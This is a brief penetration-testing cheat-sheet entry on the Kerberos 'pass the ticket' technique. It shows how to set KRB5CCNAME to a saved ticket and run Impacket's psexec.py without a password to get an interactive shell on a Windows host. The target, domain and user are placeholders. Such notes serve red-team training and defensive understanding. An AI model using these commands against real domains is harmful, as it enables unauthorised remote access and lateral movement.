 # Pass The Ticket

* Impacket’s `psexec.py` offers `psexec` like functionality. This will give you an interactive shell on the Windows host. `psexec.py` also allows using Service Tickets, saved as a `ccache` file for Authentication. It can be obtained via Impacket’s `GetST.py`
* It is much easier to use variables&#x20;

```
target=10.10.10.1
domain=test.local
username=john
export KRB5CCNAME=/full/path/to/john.ccache
python3 psexec.py $domain/$username@$target -k -no-pass
```
